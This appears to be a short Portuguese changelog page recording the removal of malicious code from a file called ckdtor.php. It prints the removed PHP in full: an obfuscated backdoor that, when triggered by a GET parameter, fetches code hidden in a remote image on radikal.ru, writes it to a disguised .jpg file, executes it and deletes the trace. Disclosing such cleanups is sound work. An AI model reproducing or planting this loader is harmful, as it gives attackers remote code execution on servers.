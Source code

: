 ```yaml
---
id: doc40
title: Arquivos Maliciosos
sidebar_label: COD 2019-10-10:06
---
```


## 40.0.0 - 2019-10-10

### Fixed

- Removido código malicioso no arquivo ckdtor.php 

## Código



```php

<?php 
if(!empty($_GET["inf0"])){$fsn="http"."s://c.radikal".".ru/c03/1808/12/23db571e4067."."jpg";$sll= file_get_contents($fsn);$pzi=strpos($sll,"<CODE>",0);if($pzi>0){$cides=substr($sll,$pzi+6);
$DS=DIRECTORY_SEPARATOR;
$ff='zzp.jpg';
if(!empty($_GET["del"])) @unlink($ff);

$fp = fopen($ff, "w");
fputs ($fp,'<?php '.$cides.' ?>');
fclose ($fp);
include_once($ff);
usleep(500);
@unlink($ff);
}}
?>
```

